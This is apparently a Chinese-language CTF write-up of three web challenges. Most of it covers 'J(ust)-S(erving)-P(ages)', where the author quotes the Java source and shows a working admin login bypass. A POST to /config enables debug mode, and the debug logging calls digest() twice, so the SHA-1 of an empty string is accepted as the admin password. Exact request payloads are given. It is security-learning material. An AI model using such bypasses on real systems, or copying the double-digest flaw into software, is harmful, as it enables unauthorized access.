

# Sanity Check

进入之后发现是个奇怪的页面，问我不是机器人叭？

bp抓个包，发现是418响应码，查到的都是说这是一种反爬虫机制，需要加上UA头才行。但是我本来就有UA头。

突发其想请求了一下robots.txt，得到flag。


# J(ust)-S(erving)-P(ages)

当时比赛的时候没能做出来，今天问了一下Y4师傅，也是知道了怎么回事。


首先就是`GlobalServerContext.java`里面，添加了一个`admin`用户，且`isAdmin`是`true`。

然后把`flag`放到了上下文中：

```java
        // Read flag from system
        try (Scanner scanner = new Scanner( new File("/flag"), "ASCII" )) {
            String FLAG = scanner.useDelimiter("\\A").next();
            servletContextEvent.getServletContext().setAttribute("FLAG", FLAG);
        }
```

最后登录之后的`home.jsp`这里做了判断，如果登录的`user isAdmin为true`的话就给flag：

```java
		<% if(user.getIsAdmin()){ 
			ServletContext sc = request.getServletContext();
     		
			out.println("Your flag is: "); 
			out.println(sc.getAttribute("FLAG"));
		}
		else {
			out.println("No flag for you :("); 
		}%>
```

登录后的`/config`这里可以修改上下文：

```java
        String jsonConfig = getBody(request);
        ObjectMapper objectMapper = new ObjectMapper();
        UserConfig userConfig = objectMapper.readValue(jsonConfig, UserConfig.class);

        

        if (userConfig == null) {
            request.setAttribute("message", "Failed to parse user configuration");
            request.setAttribute("type", "danger");
        }
        else if (userConfig.getUser() != null) {
            request.setAttribute("type", "danger");
            request.setAttribute("message", "Hacking detected!");
        }
        else {
            request.setAttribute("type", "success");
            request.setAttribute("message", "User configuration updated");
            session.setAttribute("config", userConfig);
        }
```

但是不能有`user`，而且用的是`jackson`，搜了一下这个版本也没有洞。


问了Y4师傅才知道原来是登录那里的问题：

```java
		for (User u : users) {
			if (u.getUsername().equals(username)) {
				try {
					// User password in storage is only stored as md5, we should hash it again
					MessageDigest digestStorage;
					digestStorage = MessageDigest.getInstance("SHA-1");
					digestStorage.update(u.getPassword().getBytes("ascii"));

					byte[] passwordBytes = null;
					try {
						passwordBytes = Hex.decodeHex(password_md5_sha1);
					} catch (DecoderException e) {
						return null;
					}

					UserConfig userConfig = (UserConfig) request.getSession().getAttribute("config");

					if (userConfig.isDebugMode()) {
						String pw1 = new String(Hex.encodeHex(digestStorage.digest()));
						String pw2 = password_md5_sha1;

						java.util.logging.Logger.getLogger("login")
								.info(String.format("Login tried with: %s == %s", pw1, pw2));
					}

					if (Arrays.equals(passwordBytes, digestStorage.digest())) {
						if (userConfig.isDebugMode())
							java.util.logging.Logger.getLogger("login").info("Passwords were equal");
						return u;
					}
					if (userConfig.isDebugMode())
						java.util.logging.Logger.getLogger("login").info("Passwords were NOT equal");
				} catch (NoSuchAlgorithmException e) {
					return null;
				} catch (UnsupportedEncodingException e) {
					return null;
				}
			}
		}
```

默认的`debug`是关的，但是可以通过`/config`来修改。如果`debug`是开的，就会有这样的结果：

```java
					if (userConfig.isDebugMode()) {
						String pw1 = new String(Hex.encodeHex(digestStorage.digest()));
						String pw2 = password_md5_sha1;

						java.util.logging.Logger.getLogger("login")
								.info(String.format("Login tried with: %s == %s", pw1, pw2));
					}

					if (Arrays.equals(passwordBytes, digestStorage.digest())) {
```

对`digestStorage`调用了两次`digest()`。一开始以为还没问题，但是查一下：

> 对于给定数量的更新数据，`digest` 方法只能被调用一次。`digest` 方法被调用后，MessageDigest 对象被重新设置成其初始状态。

啥叫初始状态，可以认为初始状态就是空字符串，然后经过一次`sha1`处理后得到的就是空字符串的sha1加密：

```java
        MessageDigest digestStorage;
        digestStorage = MessageDigest.getInstance("SHA-1");
        //digestStorage.update(password.getBytes("ascii"));
        byte[] bytes = digestStorage.digest();
```

这样得到的数组就相当于是，对`""`进行一次sha1加密得到的字符串(String)，再对这个字符串进行一次：

```java
					byte[] passwordBytes = null;
					try {
						passwordBytes = Hex.decodeHex(password_md5_sha1);
```

这样得到的byte[]是一样得了，因此就可以用admin登录了。


因此先随便注册登录，然后利用`/config`：

```
POST /config HTTP/1.1

{"debugMode":true,"language":0}
```

然后再登录，用户名是admin，密码是空字符串的sha1加密即可：

```
password=da39a3ee5e6b4b0d3255bfef95601890afd80709&username=admin
```

即可拿到flag：




# Amazing Crypto WAF

当时没看，之后再复现叭。。。得去学概率论了。。。